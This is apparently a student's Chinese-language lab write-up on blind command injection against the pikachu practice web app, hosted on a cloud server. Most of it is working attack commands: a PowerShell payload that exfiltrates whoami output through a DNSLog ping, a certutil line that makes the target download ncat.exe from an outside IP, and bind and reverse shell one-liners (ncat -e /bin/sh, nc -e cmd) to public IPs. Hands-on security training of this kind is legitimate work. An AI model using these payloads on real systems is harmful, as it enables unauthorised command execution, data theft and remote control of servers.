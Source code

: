 5.1实验

---

#实验环境 ：

- 阿里云+PHPStudy+pikachu （靶机）
- 服务器 （用作上传文件）

- window10              （攻击机）

#使用工具：

- Nmap （[Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download#windows)）
- DNSLog（[DNSLog Platform](http://dnslog.cn/)）
- pikachu（https://github.com/zhuifengshaonianhanlu/pikachu）
- 棱角社区（[[~\]#棱角 ::Edge.Forum*](https://forum.ywhack.com/bountytips.php)）

#实验步骤

1.设置pikachu数据库地址 

- 编辑inc\config.inc `服务器里面可能没有可以编辑PHP格式的建议下载一个Notepad++`

![image-20251017142524334](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017142524334.png)

![image-20251017144634453](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017144634453.png)

2.本机登陆靶机网站 输入`127.0.01数据有回显`

![image-20251017145400934](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017145400934.png)

3.在靶机中关闭回显 ctrl+f 搜索 echo

![image-20251017145919479](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017145919479.png)

`注释echo`

![image-20251017150055959](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017150055959.png)

4.网站无回显

![image-20251017150301157](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017150301157.png)

5.使用[DNSLog Platform](http://dnslog.cn/)网站

![image-20251017150504559](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017150504559.png)

利用window Poweshell命令 

127.0.0.1 | powershell $x = whoami;$x=$x.Replace('\\','xxx');$y='.z3xxl1.dnslog.cn';$z=$x+$y;ping $z 

- 因为cmd 无法运行 whoami
- 用Powershell变量赋值 把whoami 执行结果给变量
- 因为结果中带有==“\\”==导致ping命令无法执行
- 利用Replace 替换反斜杠变成“xxx”方面可读

==注意“\\”复制命令里面只有两个反斜杠需要删除一个反斜杠==

![image-20251017152502125](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017152502125.png)

6.利用ncat.exe

- 由于windows没有Linux自带的nc。我们需要在电脑上下载个Nmap（Nmap自带ncat.exe）

- Nmap下载地址（[Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download#windows)）

![image-20251017153515138](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017153515138.png)

- 把ncat上传到另一个服务器目录下 测试访问网址是否可以下载

  ![image-20251017171013453](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017171013453.png)

![image-20251017170945228](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017170945228.png)



- 打开棱角社区

![image-20251017171400116](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017171400116.png)

- 选用一个cmd命令因为靶机是windows系统

certutil.exe -urlcache -split -f http://47.120.15.58:80/ncat.exe c://ncat.exe  `放到c盘`

![image-20251017171522371](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017171522371.png)

- 输入命令

  ![image-20251017171744363](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017171744363.png)

127.0.0.1 | certutil.exe -urlcache -split -f http://47.120.15.58:80/ncat.exe c://ncat.exe

- 成功放入服务器c盘

![image-20251017171850870](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017171850870.png)

7.运用正反向连接即可

1.主动连接

- 主动连接目标5566

​	ncat 47.122.23.131 5566

- 绑定SH到本地5566端口

​	ncat -e /bin/sh -lvp 5566

- 主动连接目标5566

​	nc 47.94.236.117 5566

2、反向连接：主动给出去，对方监听

- 绑定CMD到目标5566端口

​	ncat -e /bin/sh 47.122.23.131 5566

- 等待5566连接

​	nc -lvvp 5566

- 绑定CMD到目标5566端口

​	nc -e cmd 47.94.236.117 5566

- 等待5566连接

​	ncat -lvvp 5566
